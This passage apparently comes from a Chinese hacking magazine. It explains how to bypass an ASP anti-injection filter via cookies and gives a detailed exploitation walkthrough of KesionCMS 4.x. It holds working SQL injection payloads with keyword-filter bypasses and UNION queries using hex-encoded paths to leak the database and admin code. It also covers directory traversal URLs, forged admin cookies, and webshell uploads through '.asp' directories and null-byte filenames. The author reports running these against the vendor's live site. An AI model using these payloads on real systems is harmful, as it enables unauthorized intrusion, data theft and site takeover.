现在我们来分析一下这两段代码！文件一的代码中，变量id没有经过任何过滤就被带到SQL语句中进行查询了，这是一个非常明显的注入漏洞；但是文件一却调用了防注入程序（文件二）。我们再分析一下文件二的代码。

首先我们提交的变量里不能含有字符“'”，也就是说只要是字符型变量的话，是没有办法进行注入的！然后就是过滤了字符“;”，我们想在MSSQL数据库注入中执行多语句的愿望也被打消了，只能寄望于数字型的变量了（搜索型注入的本质也就是字符型，所以同样是没希望的！）。我们来看看数字型注入有多大的利用空间吧！不能用“and”，我们可以用“or”，但是别的注入时常用到的关键字基本上都被过滤光了。再看看程序里的这个LCase()函数，就知道要绕过这套防注入程序并非一…一件简单的事！看来这套防注入程序是无任何瑕疵的！但事实真的是如此吗？仔细阅读一下文件一和文件二的代码可以发现，这套防注入程序只对 `Request.Form` 和 `Request.QueryString` 进行了检测，而文件一中的 `id` 变量是直接用 `Request()` 函数进行赋值的，所以，变量 `id` 能够同时接收到 `Request.Form`、`Request.QueryString` 和 `Request.Cookies` 这 3 个方式提交过来的数据。这套防注入程序并没有对 `Request.Cookies` 进行过滤，所以，我们可以利用 `Request.Cookies` 的方式提交注入语句对网站进行注入！

不过，如果每次都先抓包后修改 cookies，再用 NC 提交来注入的话，岂不是要累死人！有没有一些简单的方法呢？答案是肯定的，可以用 JavaScript 来达到我们的目的，其基本原理如下：

- 1. `alert()` 函数，它生成的是一个独立小窗口，称作对话框，用来显示一条信息和一个确定按钮（经常玩跨站的朋友应该不会陌生！）。
- 2. `document.cookie`，我们在处理 cookie 时，JavaScript 将它保存为 `document` 对象的一个属性，利用这个属性，我们可以创建和读取 cookies 数据，在程序中可以使用 `alert(document.cookie)` 这种方式来调用当前页面的 cookies 数据项值。在启动浏览器打开页面后，如果存在相应的 cookies，那么它就会被装入到 `document` 对象的 `cookie` 属性中，`document.cookie` 属性采用 `name=value` 对应方式保存各个 cookies 数据项值。`document`（文档）对象表示在浏览器里显示的 HTML（向页面输出数据），`cookie` 属性是允许读写 HTTP 的 cookies 字符串类型。
- 3. `escape()` 函数，它将字符串中所有的非字母字符转换为用字母数字表示的等价字符串，具有编码字符串的功能。一般情况下，cookies 通常由服务器端的程序通过 HTTP 请求和响应头发送给浏览器；但是，利用 JavaScript，可以在本地浏览器中设置 cookies。

格式 `name=value` 的属性是指定 cookies 数据项的名称，`value` 是该名称对应的值，它是一个字符串，也可以是由一系列字符组成。`name` 和 `value` 中不能包含分号、逗号及空白，在注入时很多时候都会包含分号、逗号和空白，所以我们要用到 `escape()` 函数对它们进行编码。

意思大家都明白了吧？就是设置调用当前创建的 cookies 数据项值。在设置 cookies 时，它们首先保存在浏览器的内存中，退出浏览器时，才能被写入到硬盘中（这就是下面操作中为什么要在退出后，再输入链接地址的原因）。

其注入方法是这样的：打开存在注入的页面（如 `http://www.xxxx.com.cn/news.asp?id=3`），将地址栏里的 URL 清空，输入 `javascript:alert(document.cookie="id="+escape("3 and 1=1"));`，之后会弹出一个框框，页面会自动刷新一下，返回的是正常页面。再输入 `javascript:alert(document.cookie="id="+escape("3 and 1=2"));`，页面同样会自动刷新一下，然而返回的却是错误页面，接下来的事情就是进行 SQL 注入攻击了！这套防注入程序在网上流传得最广，所以请使用这套防注入程序的站长们要小心了！

有一次，我在网上看到一个自称是最好的防注入脚本，说绝对不影响网站的运行和游客的浏览。阅读代码后，我发现其过滤的都是注入时用到的连接符，如空格、“+”、“-”、“/**/”等，连 `Request.Cookies` 都作了检测；但是，经过仔细阅读代码后，发现其存在一个很大的漏洞，就是居然直接过滤了 `/**/`。我们知道，`/**/` 是注释符，如果它直接就过滤了 `/* */` 的话，就给了我们有机可乘的机会，我们可以用这样的语句去测试 `and/*j*/1=1`、`and/*j*/1=2`，这样就轻易绕过了这套防注入程序。当然，也可以用“(”和“)”来绕过这套防注入程序。具体我就不说了，2007 年有一期《黑客防线》就写到了用括号去绕过防注入的文章，不懂的朋友可以查看一下！

最后，我要说一下对于那些通过编程语言编写出来的防注入程序（如“一流”）的突破方法。由于是用编程语言编写的，所以我们不能分析具体的代码，但是据网上介绍，可以通过分隔符来绕过“一流”，如把 `select` 变为 `sel%ect` 来进行注入攻击！

绕过防注入系统的方法还有很多，这里就不一一阐述了。文中有什么疏漏，还请大家多多指出，有什么问题欢迎到黑防论坛来和我进行讨论，我的黑防论坛 ID 是“诚妹”。

前置知识：无

关键词：脚本、注入、科讯CMS

# 科讯绝技秘册

## ——科讯最新漏洞深度分析与利用

文/图 Cschi

因为愤慨当前某些西方国家对我国无端的指责与诬蔑，所以原本打算分析一些国外比较流行的 CMS，有必要了解一下国外 CMS 的优缺点了，也好在必要时利用。可是自己的外文水平很菜，加上分析科讯（Kesion）CMS 一发不可收拾，所以分析国外 CMS 的打算只有往后推了。

这次发现 Kesion 的一些漏洞是必须要公布出来的，一是希望所有涉及此漏洞的网站能及时进行修补，二是提醒大家在写代码时千万不可大意。零点因为正则表达式存在缺陷才被爆破，沸腾因为过滤失误导致 0day 而被暴库，这次科讯竟是因为验证不足而被攻破，从注入到挂马，长驱直入！

目前科讯 CMS 主要有 3.x 和 4.x 两种版本，此次漏洞虽然是笔者在分析 KesionCMS 最新版（KesionCMS V4.5 SP3 版，2008 年 4 月 11 日更新，下载地址：http://kesion.com/News/6507637499662.html）时发现的，但是它影响到包括 Eshop 在内的所有 Kesion 的 4.x 版本，其中验证不足导致的上传漏洞影响所有版本。

为了方便描述，我们有必要了解一下 KesionCMS 代码的编写特点，即将页面文件与代码文件分开，这与 ASP.NET 非常类似，尽管 Kesion 没有像动易将代码文件进行编译，但是这种方法不但提高了代码的可读性，有利于代码的修改与维护，而且必要时很方便进行编译。我们先看看首页 `Index.asp` 文件，其代码如下。

```asp
<!--#include file="Conn.asp"-->
<!--#include file="KS_Cls/KS.PublicCls.asp"-->
<!--#include file="KS_Cls/KS.RCls.asp"-->
<%
Dim KSCls
Set KSCls = New SiteIndex
KSCls.Kesion()
Set KSCls = Nothing

Class SiteIndex
    Private KS, KSR
    Private Sub Class_Initialize()
        If (Not Response.IsClientConnected) Then
            Response.Clear
            Response.End
        End If
        Set KS = New PublicCls
        Set KSR = New Refresh
    End Sub

    Private Sub Class_Terminate()
        Call CloseConn()
        Set KS = Nothing
    End Sub

    Public Sub Kesion()
        （略）
        ' 其中调用了 KSR 实例的 LoadTemplate 和 KSLabelReplaceAll 函数
    End Sub
End Class
%>
```

从中可以看出，真正实现页面的代码应该是 KSR 实例中的函数，于是我们就可以进一步分析包含文件 `KS_Cls/KS.RCls.asp` 中相应的函数了。虽然我们关注的不是页面实现而是变量过滤等安全问题，但还是应该学习和借鉴这种编码的风格。

```vb
(!FolderTemplateID'))   ' 语句③
FileContent = KSRFObj.ReplaceGeneralLabelContent(FileContent)
……（略）
Response.Write FileContent   ' 语句④
RSObj.Close:Set RSObj=Nothing
End Sub
……（略）
End Class
```

## 过滤的畸形——注入漏洞

- 漏洞1：注入暴库
- 漏洞文件：`Download/ShowClass.asp`
- 漏洞描述：由于该文件对 ID 变量的畸形过滤导致注入并暴库
- 漏洞危害：严重
- 影响版本：所有 4.x 版本的 KesionCMS、KesionEShop 等

注入。按说 Kesion 对变量过滤已经很严密了，过滤单双引号、特殊字符，甚至使用类似通用防注入的语句过滤 SQL 保留的关键字，但是在此文件中对 ID 变量的过滤却很畸形！关键代码如下。

从语句①可以看出，ID 变量被 `KS.R` 和 `KS.S` 两个函数过滤，我们接着看这两个函数的定义，打开 `KS_Cls/KS.PublicCls.asp`，找到这两个函数代码如下。

```vb
Class DownLoadClass
……（略）
Private Sub Class_Initialize()
Set KS=New PublicCls ' 创建 PublicCls 类的实例
Set KSRFObj = New Refresh ' 创建 Refresh 类的实例，Refresh 类在包含文件 KS_Cls/KS.RCls.asp 中定义
……（略）
End Sub
Private Sub Class_Terminate()
……（略）
End Sub

Public Sub Kesion()
ID=KS.R(KS.S("ID")) ' 语句①
CurrPage=KS.ChkClng(KS.S("Page"))
If CurrPage<=0 Then CurrPage=CurrPage+1
If ID="" Then Exit Sub
SqlStr="Select * From KS_Class Where ClassID=" & ID ' 语句②
Set RSObj=Server.CreateObject("Adodb.Recordset")
RSObj.Open SqlStr,Conn,1,1
If RSObj.Eof And RSObj.Bof Then RSObj.Close:Set RSObj=Nothing:Call KS.Alert("非法参数!",""):Exit Sub
If RSObj("ClassPurview")=2 Then
……（略）
End If
FileContent = KSRFObj.LoadTemplate(RSObj, ...)
End Sub
```

```vb
Public Function S(Str)
S = DelSql(Replace(Replace(Request(Str), "'", ""), """", ""))
End Function

Function DelSql(Str)
Dim SplitSqlStr,SplitSqlArr,i
SplitSqlStr="dbcc|alter|drop|*|and|exec|or|insert|select|delete|update|count|master|truncate|declare|char|mid|chr|set|where|xp_cmdshell"
SplitSqlArr = Split(SplitSqlStr,"|")
For i=LBound(SplitSqlArr) To UBound(SplitSqlArr)
If Instr(LCase(Str),SplitSqlArr(i))>0 Then
Response.Write "<script>alert('系统警告! ...')</script>"
Response.End
End If
Next
DelSql = Str
End Function

Public Function R(strChar)
If strChar = "" Or IsNull(strChar) Then R = "": Exit Function
Dim strBadChar, arrBadChar, tempChar, I
strBadChar = "+, -, %, &, ?, (), <, >, [, ], {, }, /, \, ;, :, ', "", " & Chr(34) & "," & Chr(0) & ""
arrBadChar = Split(strBadChar, ",")
tempChar = strChar
For I = 0 To UBound(arrBadChar)
tempChar = Replace(tempChar, arrBadChar(I), "")
Next
tempChar = Replace(tempChar, "@@", "@")
R = tempChar
End Function
```

首先 `S(Str)` 函数过滤了单双引号，字符型变量应该是没法注入的，好在语句②的 SQL 语句引入的是数字型变量（语句中并没有使用单引号进行闭合！），所以过滤单引号就没有意义了！但是该函数继续使用 `DelSql(Str)` 函数（类似通用防注入语句，分析略）再次过滤了 ID 变量中的 SQL 恶意字符，使得注入又被拦截。

然而当我继续分析 `R(strChar)` 函数时却大跌眼镜！该函数首先使用 `IsNull` 检测变量是否为空，注意并不是使用 `IsNumeric` 检测是否为数字！呵呵，我们想注入变量当然非空了！然后函数将 `strBadChar` 字符串用“,”分割成数组，最后将待检测变量中所有与该数组中相同的字符替换为空，并将“@@”替换为“@”！此函数意在将变量中的危险字符作最后一次过滤，然而就是这个最后一次替换却导致了 Kesion 的注入漏洞！

让我们从头再分析一次语句①的过滤过程。`S(Str)` 函数首先过滤了单双引号，然后使用 `DelSql(Str)` 函数判断变量中是否存在危险的 SQL 关键保留字，比如“and”“select”“where”等，最后使用 `R(strChar)` 函数将所有与 `strBadChar` 中相同的字符替换为空！我们已经知道语句②的 SQL 语句引入的是数字型变量，所以只要能绕过 `DelSql(Str)` 函数的限制便可成功注入！原本仅 `DelSql(Str)` 函数就将我们拒之门外，然而意外的是 Kesion 又使用了 `R(strChar)` 函数！好比画蛇添足，使我们能成功绕过 `DelSql(Str)` 函数的限制！请往下看，试想如果我们在 `DelSql(Str)` 函数所限制的 SQL 关键保留字中插入 `R(strChar)` 函数能替换为空的字符，那么当通过 `S(Str)` 函数过滤后，由 `R(strChar)` 函数不就将 SQL 关键保留字忠实地还原出来吗？比如给“and”中插入“?”成为“an?d”（位置不限），当经过 `S(Str)` 函数后，由 `R(strChar)` 函数将“an?d”还原为“and”！此外，这两个函数没有限制“union”、空格、逗号，所以构造注入语句可以直接使用。

既然可以注入，那我们就实测一下吧。首先在后台添加个“下载系统”栏目，比如“测试”，然后浏览该页面。首先用“and 1=1”测试，结果如图1所示，说明关键字“and”被 `DelSql(Str)` 函数拦截下来——这是必然的！于是用“an?d 1=1”检测，返回正常页面，如图2所示，再用“an?d 1=2”检测，结果如图3所示。OK，说明已经绕过过滤成功注入！

图1  
图2  
图3

暴库。既然可以注入，那么我们接着分析语句②：`SqlStr="Select * From KS_Class Where ClassID=" & ID`。通过数据库我们知道，`KS_Class` 表一共 34 个字段，于是为 ID 变量构造 union 语句：`376 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34 from KS_Admin`（注意其中“sel?ect”不是“select”！），结果如图4所示。

继续往语句②以下看，如果 `RSObj` 结果集为空，则弹出窗口提示“非法参数！”，如果非空（使用 union 语句，`RSObj` 结果集肯定非空）则继续。`RSObj("ClassPurview")` 为第 26 个字段，union 后结果集的第 26 个字段值为“26”（实际使用时尽量将修改 ID 为其它不存在的值，保证前面的 select 语句返回空集），必然不等于“2”，于是跳过 `If RSObj("ClassPurview")=2 Then` 的条件到语句③。

因为 `Refresh` 类在包含文件 `KS_Cls/KS.RCls.asp` 定义，所以我们在该文件中找到 `LoadTemplate` 函数进行分析，函数代码如下。

```vb
Function LoadTemplate(TemplateFname)
  On Error Resume Next
  Dim FSO, FileObj, FileStreamObj
  Set FSO = CreateObject(KS.Setting(99))
  ' 默认 Scripting.FileSystemObject
  TemplateFname = Server.MapPath(Replace(TemplateFname,"//","/"))
  If FSO.FileExists(TemplateFname) = False Then
    LoadTemplate = "模板不存在,请先绑定!"
  Else
    Set FileObj = FSO.GetFile(TemplateFname)
    Set FileStreamObj = FileObj.OpenAsTextStream(1)
    If Not FileStreamObj.AtEndOfStream Then
      LoadTemplate = FileStreamObj.ReadAll
    Else
      LoadTemplate = "模板内容为空"
    End If
  End If
End Function
```

```vb
End If
Set FSO = Nothing:Set FileObj = Nothing:Set FileStreamObj = Nothing
LoadTemplate=LoadTemplate & Published
End Function
```

不难看出该函数的功能是读取模板文件的内容。我们再回过头看看语句③，其实就是读取 `RSObj("FolderTemplateID")`——第 10 个字段值所指定的模板文件内容。清楚了这点是非常重要的！因为只要我们将 union 语句中的“10”改为指定的文件名不就可以读出该文件内容了吗？比如改为“../conn.asp”不就能读出数据库连接文件内容——不就暴库了吗？OK！让我们继续。

`Select 0x2E00`。这时我们又发现不能在 union 中使用单引号，比如 `376 union sel?ect 1,2,3,4,5,6,7,8,9,'../conn.asp',11,...,34 from KS_Admin`，因为其中单引号首先会被 `KS.S` 函数过滤掉，这样执行 union 语句时会出错。我们可以在 Access 中测试如下语句。

```sql
Select * From KS_Class Where ClassID=376 union
select 1,2,3,4,5,6,7,8,9, ../conn.asp,11,12,13,14,15,16,17,
18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34 from
KS_Admin
```

当“../conn.asp”没有单引号时执行出错，结果如图5所示。

但是我们还知道，Access 支持“`0x` + 字符的 Unicode 码”方式表示字符串！这里需要注意的是，字符 Unicode 码的高 8 位和低 8 位的位置是以双字节的存储方式表示的——即“低 8 位 + 高 8 位”——亦即低 8 位在前、高 8 位在后，比如“.”的 Unicode 码为“002E”，用“0x”方式表示时为“0x2E00”。至于如何获得字符的 Unicode 码，Windows 系统自带的“字符映射表”……就是很好的工具（默认在“附件”的“系统工具”中），如图6所示。于是我们在 Access 中测试 `select 0x2E002E002F0063006F006E006E002E00610073007000` 语句，成功返回了“../conn.asp”字符串！如图7所示。

图6

图7

那么，我们再次构造 union 暴库语句如下：

```sql
376 union select 1,2,3,4,5,6,7,8,9,0x2E002E002F0063006F006E006E002E00610073007000,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34 from KS_Admin
```

提交到“Download/ShowClass.asp?ID=...”链接后，虽然返回的是空白页面，然而却暗藏玄机，查看该页面的“源码”，你会为之震惊的——我们已经成功暴出了 Access 数据库文件名！如图8所示。

检测 Kesion 官方网站，直接请求 `http://www.kesion.com/Download/ShowClass.asp?ID=2`，提示“模板不存在，请先绑定！”，不管它，直接在后面添加构造的 union 语句：`union select 1,2,3,4,5,6,7,8,9,0x2E002E002F0063006F006E006E002E00610073007000,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34 from KS_Admin`，仍旧返回“模板不存在，请先绑定！”，有闷！难道官方不存在注入？

图8

于是使用“and 1=1”检测，结果如图9所示；使用“and 1=1”检测，结果如图10所示，说明官方的该文件同样存在注入漏洞！

图9

图10

试着将 union 语句中“0x2E002E002F0063006F006E006E002E00610073007000”的位置逐一向前移动，当移到第9个字段位置，union 语句为：`union select 1,2,3,4,5,6,7,8,0x2E002E002F0063006F006E006E002E00610073007000,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34 from KS_Admin` 再次检测时返回空白页面，耶！有希望了——起码没有“模板不存在，请先绑定！”的提示了，赶紧查看页面源码，OK！暴库成功，如图11所示，这也说明官方网站的模板文件名存放在第9个字段中。

图11

暴后台认证码。Kesion 后台认证使用了后台登录密码和后台管理认证码两种方式进行管理员认证的，正如 Admin/ChkCode.asp 文件（如图12所示）中提到的那样，一旦修改了后台管理认证码，即使有人下载到数据库并知道了后台用户名和密码也不能登录后台！这原本是很好的一种认证方式，然而当 Kesion 暴出此暴库漏洞后，这种防范就形同虚设了。我们可以直接暴“Admin/ChkCode.asp”文件内容进而得知后台管理认证码！

图12

方法很简单，只要将 union 语句中的“0x2E002E002F0063006F006E006E002E006100730070000”（“../conn.asp”）改为“0x2E002E002F00610064006D0069006E002F00630068006B0063006F00640065002E00610073007000”（“admin/chkcode.asp”）即可，需要注意的是 Kesion 官方为第9个字段，而一般 KesionCMS 为第10个字段。然而当实际暴官方后台认证码时出错，提示“模板不存在，请先绑定！”，难道该文件不存在？于是直接访问“admin/chkcode.asp”文件时显示“HTTP 错误 404 - 文件或目录未找到”的错误提示，看来官方修改了后台管理目录！

后台管理目录。如果找不到后台管理目录，那么一切都是枉然。记得 Kesion 后台可以设置管理目录，那么 Kesion 自己又是如何确认后台管理目录的呢？最后在 Admin/Login.asp 文件中发现这样一句代码“AdminDir=KS.Setting(89)”，可见后台管理目录是从 KS.Setting(89) 中读出的，于是使用 DreamWeaver 查找所有使用过“KS.Setting(89)”字符串的文件，最终确定可以利用“KS_Editor/FullScreen.asp”文件自动定位到后台登录页面！关键代码如下：

```html
AdminDir=KS.Setting(89)
......
<HTML>
<HEAD>
<TITLE>科汛在线编辑器 - 全屏编辑</TITLE>
</HEAD>
<form method="post">
<input type="hidden" id="Content" name="Content">
<iframe id="ContentFrame" name="ContentFrame"
src="<%=Domain & AdminDir%>KS.Editor.asp?FullScreenFlag=1&ID=Content&Style=<%=Style%>&ChannelID=<%=ChannelID%>"
frameborder=0 scrolling=no width="100%" height="100%"></iframe>
</form>
```

可以看出首先从 KS.Setting(89) 获得后台管理目录赋值给 AdminDir 变量，最后使用 `<iframe>` 方式调用 AdminDir 目录中的 KS.Editor.asp 文件！又由于 KS.Editor.asp 要验证管理员身份，是则可以正常使用编辑器，否则跳转到后台登录页面！而这恰恰正是我们所期望的！于是请求 Kesion 官方的“KS_Editor/FullScreen.asp”文件，得到管理页面，查看页面源码得到管理目录，如图13所示。

从这个页面我们可以得到3个信息，一是科汛官方网站使用的是4.0版本；二是管理员已经修改了后台认证码（如果没有修改，页面中将显示出默认的认证码！）；三是管理目录为……

图13

“kesion_admin”。这里有必要介绍一个简单区分版本3.x和4.x的方法，就是3.x的登录页面文件为“admin_login.asp”，并且当访问管理目录时不会自动转到登录页面，而4.x的登录页面文件为“login.asp”，并且当访问管理目录时会自动转到登录页面！两种版本都可以通过“KS_Editor/FullScreen.asp”文件获得登录页面和管理目录！

既然获得了管理目录，那么将 union 暴库语句中的第9个字段值改为“0x2f006b006500730069006f006e005f00610064006d0069006e002f00630068006b0063006f00640065002e00610073007000”，对应的字符串为“/kesion_admin/chkcode.asp”，因为当字符串以“/”或“\”开始时，使用 Server.MapPath 获取的将是完整的虚拟路径——即相对于网站的根目录，所以不需要使用“../”跳转目录了。再次测试官方暴出后台认证码，如图14所示。

图14

我们之所以要刻意暴出后台认证码，因为这是下面将提到的更严重漏洞能否顺利利用的前提，此处暂且按下不表，只说我们已经成功暴出数据库和后台认证码，那么下载数据库后爆破管理员密码或者进行 Cookie 欺骗便可进入 Kesion 后台，原本严密的种种限制屏障顷时土崩瓦解！究其原因是画蛇添足的 KS.R 函数过滤！后来分析发现，虽然 3.x 版本同样存在多余的 KS.R 函数，但是在语句②引入 ID 变量时使用了单引号成为字符串型变量，所以 3.x 版本反而无此漏洞。可能是改版时作者的一时疏忽，然而就因为这一疏忽，导致了 Kesion 安全防线的全线崩溃！

## 漏洞2：其他注入

另外，在分析 KesionCMS 的 user/user_payReceive.asp 文件时，发现 v_oid 未作任何过滤，虽然笔者粗略看后觉得利用不是十分方便，但是毕竟涉及到“在线支付”系统，觉得还是建议使用 KS.S 函数进行过滤。

## 过滤的不足——跨目录浏览

### 漏洞3：跨目录浏览之一

- 漏洞文件：KS_Cls/KS.WebFilesCls.asp
- 漏洞描述：由于未充分过滤 CurrentDir 变量中的“.”等字符，导致可以跨目录浏览
- 漏洞等级：严重
- 影响版本：所有 3.x、4.x 版本

Kesion 的文件管理功能比较强大，但却忽略了安全性的防范，于是便付出了被跨目录浏览的代价。由于 KS.WebFilesCls.asp 文件本身只做了 WebFilesCls 类对象的定义，所以使用 DreamWeaver 搜索所有调用 WebFilesCls 类的页面文件，得到两个 User/User_Files.asp 和 User/SelectPhoto.asp，最后把 User/SelectPhoto.asp 作为重点可疑文件分析。代码如下：

```asp
……（略） //当ChannelID>100时向下执行，如ChannelID=998
TopDir=KS.ReturnChannelUserUpFilesDir(ChannelID,KSUser,UserName)
IF TopDir="" Then //分析ReturnChannelUserUpFilesDir函数发现一般TopDir不为空
    TopDir=KS.S("topdir")
Else
    TopDir=TopDir & "/"
End IF
Call KS.CreateListFolder(TopDir)
Dim WFCls:Set WFCls = New WebFilesCls
Call WFCls.Kesion(ChannelID,TopDir,"select",20,"选择图片","","Images/Css.css")
Set WFCls = Nothing
```

分析 KS.ReturnChannelUserUpFilesDir 函数，发现一般情况下 TopDir 返回不为空，所以“TopDir=KS.S("topdir")”语句无法执行，TopDir 变量也就无法从外部提交，于是直接分析 WFCls.Kesion 过程（定义在 KS_Cls/KS.WebFilesCls.asp 文件中），关键代码如下：

```vb
......（略）
TopDir=Replace(WebDir&Topdir,"//","/")
action=LCase(Trim(KS.G("action")))
CurrentDir=Trim(Replace(KS.G("CurrentDir"),"../",""))
CurrentPage=KS.ChkClng(KS.G("page"))
if CurrentDir<>"" then
  CurrentDir=Replace(CurrentDir & "/","//","/")
end if
Set Fso=Server.CreateObject(Trim(KS.Setting(99)))
......（略）
//当action不为del或rname时，调用Sub Main()过程实现对文件夹（TopDir & CurrentDir）浏览，过滤CurrentDir变量中的单双引号、“../”和“//”
```

首先过滤了 CurrentDir 变量中的单双引号、“../”和“//”，当 action 不为 del 或 rname 时，调用 Sub Main() 过程实现对文件夹“TopDir & CurrentDir”浏览。看似已经过滤了跨目录的恶意字符“../”，但实际这样的过滤等同没有过滤！现假设我们提交“.../.../.../.../”，那么过滤其中的“../”不就又还原成了“../../../../”吗？看来的确存在跨目录浏览漏洞。

检测 Kesion 官方网站，该漏洞必须使用注册用户登录后才可利用，于是先注册用户 Cool 并登录后，直接请求如下链接。需要注意的是，不能直接使用鼠标点击页面显示出的目录，这样是无法正常浏览相应目录的，必须在地址栏中进行构造。

浏览根目录（如图15）：

```text
http://www.kesion.com/user/SelectPhoto.asp?
ChannelID=9997&action=Main&CurrentDir=../../../../../../
```

浏览数据库目录（如图16）：

```text
http://www.kesion.com/user/SelectPhoto.asp?
ChannelID=9997&action=Main&CurrentDir=../../../../../../KS_Data
```

### 漏洞4：跨目录浏览之二

- 漏洞文件：Admin/KS.Adminfiles.asp
- 漏洞描述：由于用户验证不严，加上未过滤跨目录字符，导致无需登录即可任意跨目录浏览，甚至删除目录和文件。
- 漏洞等级：严重
- 影响版本：4.5 版本

按说 Admin 目录中所有文件应该包含管理认证文件（Admin/Include/Session.asp），然而该文件不但没有包含此管理认证文件，而且其中唯一的验证也十分脆弱。更严重的是该文件是进行目录和文件管理的，却没有有效防范跨目录问题，最终导致可以任意删除目录或文件。我们先看该文件中唯一的验证 KS.ReturnPowerResult 过程的代码。

```vb
Public Function ReturnPowerResult(ChannelID, PowerOpName)
  If Request.Cookies(SiteSn)("AdminName") = "" Then
    ReturnPowerResult = False
    Exit Function
  ElseIf Request.Cookies(SiteSn)("SuperTF") = "1" Then '超级管理员拥有所有权限
    ReturnPowerResult = True
    Exit Function
  Else
    ......（略）// 验证其它非超级管理员组的权限
  End If
End Function
```

不难看出该验证是十分脆弱的，只要保证 Cookies 的 AdminName 非空、SuperTF 为 1 即可通过超级管理员的验证！我们知道 Cookies 是可以在客户端伪造的，所以只要确定出相应的 Cookies 名称即可。

由于 Kesion 官方网站使用的是 4.0 版本，无 KS_Adminfiles.asp 页面文件，于是本地测试，结果如图17，然后修改 UploadDir 值便可实现跨目录，并可以删除任意文件。

图17

## 验证的缺陷——上传漏洞

### 漏洞5：上传漏洞之一

- 漏洞文件：Admin/Include/SaveBeyondfile.asp
- 漏洞描述：该文件实现远程偷图功能，由于 Wjj 变量未过滤“.”等危险字符，导致利用 Windows 2003 系统解析“.asp”目录中的任意文件特点直接写马。
- 漏洞等级：严重
- 影响版本：所有的 3.x 和 4.x 版本

在后台添加新文章、图片、软件时，点“远程抓取图片...”便可打开该页面，如图18所示，或者直接在地址栏中输入“http://127.0.0.1/Admin/Include/SaveBeyondfile.asp”。

```asp
if KS.G("wjj")<>"" Then
  Wjj=KS.G("WJJ")
  // 只过滤了单双引号，于是令 WJJ 为 “.asp”
Else
  ......（略）
End If
if request("action")="save" then
  call KS.CreateListFolder(wjj)
```

图18

```asp
// 创建“.asp”目录：在 Windows2003 系统将该目录下的任意文件按照 asp 文件进行解析
http=trim(request.Form("http"))
......（略）
ext=right(http,4)
fname=wjj&year(now)&month(now)&day(now)&hour(now)&second(now)&KS.MakeRandom(5)&ext
Call KS.SaveBeyondFile(fname1,http)
// 利用 Microsoft.XMLHTTP 组件获取远程文件内容，远程文件应设为 txt、jpg、gif 等类型
```

可见该文件没有过滤 WJJ 变量中的“.”字符，导致可以创建类似“.asp”的目录，而 Windows 2003 系统会将此类目录中的任意文件按照 ASP 文件进行解析，所以我们通过远程抓取一个木马内容的 txt 或者 jpg 等类型文件即可完成写马！

如果说畸形的过滤是 Kesion 的第一个软肋的话，那么下面我将给大家具体分析 Kesion 的第二个软肋——验证的缺陷，这同样是严重和致命的！按说 SaveBeyondfile.asp 文件包含了同目录中的 Session.asp 文件，验证登录应该是安全的……代码如下：

```asp
<!--#include file="../ChkCode.asp"-->
......（略）
IF KS.C("AdminName") = "" Or KS.C("AdminPass") = "" Then
  on error resume next
  Response.Write("<script>top.location.href='" & AdminDirStr & "Login.asp';</script>")
  if err then err.clear
  Response.Write("<script>top.location.href='" & AdminDirStr & "Login.asp';</script>")
```

```asp
Set KS=Nothing
End If
Else  // 如果匿名访问时 Cookies 将为空，所以略去以下代码
......（略）
End If
```

即当 Cookies 中的 AdminName 或 AdminPass 值任一个为空时，将使用 Response.Write 重定位到 Login.asp 页面，但是这里缺少了个重要的语句——“Response.End”——页面终止语句！没有此语句时，尽管表面看起来页面已经重定位到 Login.asp 文件，但是暗地里 IIS 将继续执行后续的 ASP 代码！我们可以在后面输出几个字符，然后用 WSockExpert 抓包便可证实这一点！

分析 ChkCode.asp 文件（代码如图12），可知 Cookies 中的 AdminLoginCode 值必须等于后台认证码时才能通过该文件验证，否则页面将被重定位到 Login.asp 并且终止执行（Response.End）！所以只要知道后台认证码，那么所有利用 Session.asp 文件进行验证的页面将被无限制地任意访问！这就是 Kesion 的第二软肋，至于如何获知后台管理目录和后台认证码，前面已经做了详尽地讲述。如果网站没有修改默认后台认证码的话，那么它就是自暴软肋！

本地实测，抓包如图19所示，用 nc 提交后即可将远程“http://127.0.0.1/1.txt”文件保存到网站根目录下新建的“1.asp”目录中！如图20所示。


图19

需要注意的是，图19中5处划线部分应根据实际修改：①为主机名；②为 Cookies 名称；③为后台认证码；④为待抓取的远程文件；⑤为待创建的目录名，以“%2f”即“/”开头说明是在网站根目录中建立！


图20

检测 Kesion 官方。检测前我们必须准备好④，还必须确定出②和③，必要时还应修改后台管理目录，修改后的包文件如图21所示。请注意其中划线部分均为根据实际修改的，然后使用 nc 提交，提示“远程保存成功！”，如图22所示。


图21


图22

直接访问该文件，返回空白页面，OK！说明一句话已被解析执行！于是使用海洋连接成功，如图23所示。

### 漏洞6：上传漏洞之二

- 漏洞文件：Admin/Include/UpFileSave.asp
- 漏洞描述：只要已知后台认证码就能上传


图23  
图24

## ASP木马文件！

- 漏洞等级：严重
- 影响版本：所有 3.x 和 4.x 版本

既然我们能绕过 Session.asp 文件的限制任意访问 Admin 目录中的所有文件，那么我们继续分析一下该上传漏洞。当“命名规则”选择为“原名称不变”时，一个标准的上传漏洞产生了，分析略。我们可以先将 Admin/include/UpFileForm.asp 文件中“<!--#include file="Session.asp"-->”删除后，访问显示的页面如图24所示，然后上传内容为一句话的 jpg 文件，抓包如图25所示。


图25

最后使用 WinHex 将“s.asp 1.jpg”中的空格改为二进制的“00”，保存后用 nc 提交，这样 s.asp 木马便被成功上传到网站根目录了，而这仅仅只需要知道后台认证码！

## 结束语

笔者使用百度搜索“Powered by Kesion.COM”关键字，发现使用 Kesion 的网站还真不少，然而当我进行注入暴库测试时还发现有许多网站竟然使用的是默认数据库文件名，有的还未修改后台认证码，这无疑会使木马毫无阻拦地长驱直入！

最后还想说的就是 KesionCMS 本身！从此次漏洞的深入分析再次提醒我们，代码的严密性是容不得任何疏漏的，否则一切将功亏一篑，后果也是严重和致命的，同时也提醒我们“小处不可随便”，毕竟“安全无小事”嘛！

- 前置知识：ASP.net
- 关键词：脚本、Discuz!NT、SQL 存储扩展

# 注入 Discuz!NT 2.5

文/图 人鱼姬


